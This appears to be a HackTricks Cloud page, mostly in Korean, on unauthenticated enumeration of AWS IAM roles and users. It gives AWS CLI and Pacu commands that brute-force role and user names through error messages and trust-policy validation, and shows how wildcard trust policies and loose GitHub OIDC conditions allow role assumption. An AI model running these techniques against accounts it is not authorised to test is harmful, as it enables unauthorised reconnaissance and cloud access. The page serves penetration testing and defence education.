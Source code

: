# AWS - IAM & STS 비인증 열거

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}

## 계정에서 역할 및 사용자 이름 열거하기

### ~~역할 가정 브루트포스~~

{% hint style="danger" %}
**이 기술은 더 이상 작동하지 않습니다**. 역할이 존재하든 아니든 항상 다음과 같은 오류가 발생합니다:

`An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::947247140022:user/testenv is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::429217632764:role/account-balanceasdas`

다음 명령어를 실행하여 **테스트할 수 있습니다**:

`aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`
{% endhint %}

필요한 권한 없이 **역할을 가정하려고 시도하면** AWS 오류 메시지가 발생합니다. 예를 들어, 권한이 없는 경우 AWS는 다음과 같은 메시지를 반환할 수 있습니다:
```ruby
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```
이 메시지는 역할의 존재를 확인하지만, 해당 역할의 가정 정책이 당신의 가정을 허용하지 않음을 나타냅니다. 반대로, **존재하지 않는 역할을 가정하려고 하면 다른 오류가 발생합니다**:
```less
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```
흥미롭게도, **존재하는 역할과 존재하지 않는 역할을 구별하는** 이 방법은 서로 다른 AWS 계정 간에도 적용 가능합니다. 유효한 AWS 계정 ID와 타겟 단어 목록을 사용하면, 본질적인 제한 없이 계정에 존재하는 역할을 열거할 수 있습니다.

이 문제를 악용하여 잠재적인 주체를 열거하는 [스크립트](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume\_role\_enum)를 사용할 수 있습니다.

### 신뢰 정책: 크로스 계정 역할 및 사용자에 대한 무차별 대입

**IAM 역할의 신뢰 정책을 구성하거나 업데이트하는 것은 해당 역할을 가정할 수 있는 AWS 리소스 또는 서비스를 정의하고 임시 자격 증명을 얻는 것을 포함합니다.** 정책에 지정된 리소스가 **존재하면**, 신뢰 정책은 **성공적으로** 저장됩니다. 그러나 리소스가 **존재하지 않으면**, **오류가 발생**하여 잘못된 주체가 제공되었음을 나타냅니다.

{% hint style="warning" %}
해당 리소스에서 크로스 계정 역할 또는 사용자를 지정할 수 있습니다:

* `arn:aws:iam::acc_id:role/role_name`
* `arn:aws:iam::acc_id:user/user_name`
{% endhint %}

다음은 정책 예시입니다:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":
{
"AWS":"arn:aws:iam::216825089941:role\/Test"
},
"Action":"sts:AssumeRole"
}
]
}
```
#### GUI

존재하지 않는 **역할**을 사용하면 이 **오류**를 찾을 수 있습니다. 역할이 **존재**하면 정책이 오류 없이 **저장**됩니다. (오류는 업데이트에 대한 것이지만 생성할 때도 작동합니다)

![](<../../../.gitbook/assets/image (153).png>)

#### CLI
```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
"Role": {
"Path": "/",
"RoleName": "Test-Role",
"RoleId": "AROA5ZDCUJS3DVEIYOB73",
"Arn": "arn:aws:iam::947247140022:role/Test-Role",
"CreateDate": "2022-05-03T20:50:04Z",
"AssumeRolePolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::316584767888:role/account-balance"
},
"Action": [
"sts:AssumeRole"
]
}
]
}
}
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```
You can automate this process with [https://github.com/carlospolop/aws\_tools](https://github.com/carlospolop/aws\_tools)

* `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

Our using [Pacu](https://github.com/RhinoSecurityLabs/pacu):

* `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* The `admin` role used in the example is a **role in your account to by impersonated** by pacu to create the policies it needs to create for the enumeration

### Privesc

In the case the role was bad configured an allows anyone to assume it:  
이 역할이 잘못 구성되어 누구나 이를 가정할 수 있는 경우:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
The attacker could just assume it.

## 제3자 OIDC 연합

Imagine that you manage to read a **Github Actions workflow** that is accessing a **role** inside **AWS**.\
This trust might give access to a role with the following **trust policy**:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
},
"Action": "sts:AssumeRoleWithWebIdentity",
"Condition": {
"StringEquals": {
"token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
}
}
}
]
}
```
이 신뢰 정책은 올바를 수 있지만, **더 많은 조건의 부족**으로 인해 신뢰하지 않아야 합니다.\
이것은 이전 역할이 **Github Actions의 누구나** 가정할 수 있기 때문입니다! 조건에 조직 이름, 저장소 이름, 환경, 브랜치와 같은 다른 사항도 명시해야 합니다...

또 다른 잠재적인 잘못된 구성은 다음과 같은 **조건을 추가하는** 것입니다:
```json
"StringLike": {
"token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```
**콜론** (:) 앞에 **와일드카드** (*)에 유의하세요. **org\_name1**과 같은 조직을 만들고 Github Action에서 **역할을 가정**할 수 있습니다.

## 참고문헌

* [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
* [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 **팔로우**하세요.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.

</details>
{% endhint %}
